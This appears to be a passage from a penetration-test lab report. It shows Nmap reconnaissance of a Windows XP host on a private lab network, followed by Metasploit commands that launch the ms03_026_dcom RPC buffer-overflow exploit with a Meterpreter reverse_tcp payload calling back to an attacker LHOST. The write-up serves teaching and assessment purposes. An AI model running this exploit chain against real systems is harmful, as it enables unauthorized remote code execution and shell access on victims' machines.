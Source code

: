 \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=130 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: 
|   NetBIOS name: CL1, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:bc:e8:06 (VMware)
|   Names
|     CL1<00>              Flags: <unique><active>
|     POETSCAFE<00>        Flags: <group><active>
|     CL1<03>              Flags: <unique><active>
|     CL1<20>              Flags: <unique><active>
|_    POETSCAFE<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: CL1
|   NetBIOS computer name: CL1
|   Domain name: poetscafe.local
|   Forest name: poetscafe.local
|   FQDN: CL1.poetscafe.local
|   NetBIOS domain name: POETSCAFE
|_  System time: 2014-03-04T22:09:28+01:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE (using port 554/tcp)
HOP RTT     ADDRESS
1   9.80 ms 10.11.12.1
2   7.44 ms 192.168.233.106

NSE: Script Post-scanning.
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds
           Raw packets sent: 1118 (52.738KB) | Rcvd: 1110 (46.626KB)
\end{lstlisting}
We found that the server use Microsoft Windows RPC service on port 135 and considered using this service as a breakthrough. It may contain a flaw that allow attackers execute their code remotely. After search, we found an exploit called \lstinline{ms03_026_dcom}. It exploits a stack buffer overflow in Remote Procedure Call System Service(RPCSS), a technique allows client and server to connect. 
\begin{itemize}
	\item sudo msfconsole
	\item \lstinline{use exploit/windows/dcerpc/ms03_026_dcom}
	\item set RHOST 192.168.233.106
	\item \lstinline{set payload windows/meterpreter/reverse_tcp}
	\item set LHOST 10.11.12.29
	\item run
\end{itemize}

